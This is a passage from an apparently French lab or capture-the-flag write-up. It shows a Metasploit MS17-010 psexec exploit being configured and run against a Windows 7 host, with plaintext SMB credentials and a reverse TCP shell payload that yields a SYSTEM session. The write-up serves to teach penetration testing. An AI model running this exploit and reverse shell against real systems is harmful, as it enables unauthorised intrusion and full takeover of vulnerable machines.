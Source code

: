L'exploit échoue faute de trouver ou accéder à l'un de ces pipes. On peut alors utiliser les identifiants de *Russel* pour accéder aux pipes et permettre l'exploitation qui a réussie avec un payload assez basique.  

```plain
msf5 exploit(windows/smb/ms17_010_psexec) > show options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                10.1.1.15                                                       yes       The target address range or CIDR identifier
   RPORT                 445                                                             yes       The Target port
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 C$                                                              yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass               little5                                                         no        The password for the specified username
   SMBUser               russel                                                          no        The username to authenticate as

Payload options (windows/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     443              yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf5 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.254.0.29:443
[*] 10.1.1.15:445 - Authenticating to 10.1.1.15 as user 'russel'...
[*] 10.1.1.15:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.1.1.15:445 - Built a write-what-where primitive...
[+] 10.1.1.15:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.1.1.15:445 - Selecting PowerShell target
[*] 10.1.1.15:445 - Executing the payload...
[+] 10.1.1.15:445 - Service start timed out, OK if running a command or non-service executable...
```